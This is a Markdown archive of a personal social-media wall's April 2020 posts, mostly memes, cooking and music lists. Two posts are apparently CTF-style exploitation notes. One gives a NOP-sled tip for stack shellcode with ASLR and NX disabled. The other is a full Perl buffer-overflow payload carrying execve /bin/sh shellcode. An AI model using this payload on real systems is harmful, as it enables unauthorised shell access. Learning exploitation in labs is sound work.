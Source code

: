 ```yaml
---
title: 2020-04
date: 2020-04-01 00:06:24
draft: false
---
```


date: 2020-04-29 23:03:29
постинг тупых мемов продолжается
-----
same energy

![](/img/vk/zWt7Hzh4Av4.jpg)
![](/img/vk/Pwk8VASAywo.jpg)

date: 2020-04-29 01:55:30
Стався

![](/img/vk/09R_TcVjrqA.jpg)

date: 2020-04-27 23:15:23
Бігаю коли треба. Коли не треба не бігати.

![](/img/vk/3-WFCe54l0A.jpg)

date: 2020-04-27 19:13:42
Ленивый обзор на Канемана

![](/img/vk/Yc4peXftoTU.jpg)

date: 2020-04-22 17:28:22
У меня разрядилась батарейка на мышке, поэтому я теперь как конч сижу с графпланшетом как мышкой. Принимаю заказы, что нарисовать, цена: 0 долларов по сегодняшнему курсу. Примеры моих работ прикрепляю

![](/img/vk/jDbNyNCbp0Y.jpg)
![](/img/vk/OXtkf5Z3Od8.jpg)

date: 2020-04-20 23:03:04
Админ упарывается диффурами, функаном, вариационным анализом и матфизикой с щепоткой квантовой физики
связаны. связаны

![](/img/vk/YSwCdDIoKyo.jpg)

date: 2020-04-19 10:39:16
![](/img/vk/X1CP8Gz0owk.jpg)
![](/img/vk/CXrUjewnou0.jpg)

date: 2020-04-17 03:08:55
Ежевечный пост о том, что слушать на работе
радио сычхаос
http://radcap.ru/witchhouse.html

date: 2020-04-16 20:01:42
1536. Гренки

![](/img/vk/PL5csSKZADc.jpg)

date: 2020-04-15 22:07:18
Достижение получено: есть собственно приготовленные жареные куски теста со сметаной в течение трех дней и не сдохнуть.👍🏻

![](/img/vk/dVlcLgg18wM.jpg)

date: 2020-04-15 10:40:35
❤👇🏻
![](/img/vk/98nSIHInGdE.jpg)

date: 2020-04-13 21:20:54
TODO: fix
![](/img/vk/tenor.gif)
      "audio": {
        "artist": "M()RE",
        "title": "Sugarfree",
      },

date: 2020-04-10 20:17:24
134468. Панкейки

![](/img/vk/s7WHzQzHMnY.jpg)

date: 2020-04-09 11:45:43
![](/img/vk/n7Zz3lTXQds.jpg)

date: 2020-04-07 00:29:36
(имя и фото изменены на вымышленные)

![](/img/vk/BStubplyAmg.jpg)

date: 2020-04-05 01:48:43
Полезные советы молодым пывнерам #42:

Чтобы вызвать шелкод со стека вне дебагера, можно добавить 100 или более нопов и к адресу возврата, полученному из дебагера прибавить половину длины нопслайда(в нашем случае 50). Работает понятно только с выключенным ASLR & NX, но зато стабильно. Также полезно спать, а не заниматься перебором оффсетов в полпервого ночи.

![](/img/vk/bFWv4ECx90Q.jpg)

date: 2020-04-04 23:58:39
Это я, пытаюсь понять, зачем чел выделяет 0x68=104 байт на стеке, а юзает только 64+4+8=76

![](/img/vk/Xchf-A-ROW8.jpg)

date: 2020-04-04 13:13:04
PEPELEPSY

https://www.youtube.com/watch?v=0RxAa8a8tUE

date: 2020-04-04 09:11:00
![](/img/vk/0psPeWqTFlM.jpg)
      "audio": {
        "artist": "CRASPORE",
        "title": "Flashbacks",
      },
      "audio": {
        "artist": "Crystal Castles",
        "title": "Sadist",
      },
      "audio": {
        "artist": "fraunhofer diffraction",
        "title": "kali yuga",
      },
      "audio": {
        "artist": "M()RE feat. CHERNOBURKV",
        "title": "\u0421\u0443\u043a\u0438 \u0422\u0430\u043d\u0446\u044b \u0438 \u041d\u043e\u0436\u0438",
      },
      "audio": {
        "artist": "CRASPORE, CHERNOBURKV",
        "title": "\u0417\u0438\u043c\u0430",
      },

date: 2020-04-03 22:58:44
На случай важных переговоров
(perl -e 'print "A" x 76 . pack("I", 0xbffff780) . "\x90" x 60 . "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b"'; echo id)

date: 2020-04-01 12:40:35
Если уж собрался заканчивать жизнь😨, то почему бы ❓не отдать все деньги💰 на благотворительность💌. А раз есть такая возможность, то можно еще и поиграть в игрульки🏆, почему бы нет🤔.
https://www.humblebundle.com/conquer-covid19-bundle

date: 2020-04-01 12:04:07
Жизнь — это боль. Я каждое утро просыпаюсь с болью, хожу на работу с болью! Сказать, сколько раз мне хотелось послать все к черту, свести счеты с жизнью?

![](/img/vk/HaSC0UIR8B4.jpg)

date: 2020-04-01 00:06:24
TODO: delete

![](/img/vk/CbMfa7PsBu8.jpg)
      "audio": {
        "artist": "LENA",
        "title": "\u0412\u0421\u041a\u0420 \u0412\u0421\u041a\u0420 \u0412\u0421\u041a\u0420 \u0412\u0421\u041a\u0420",
      },
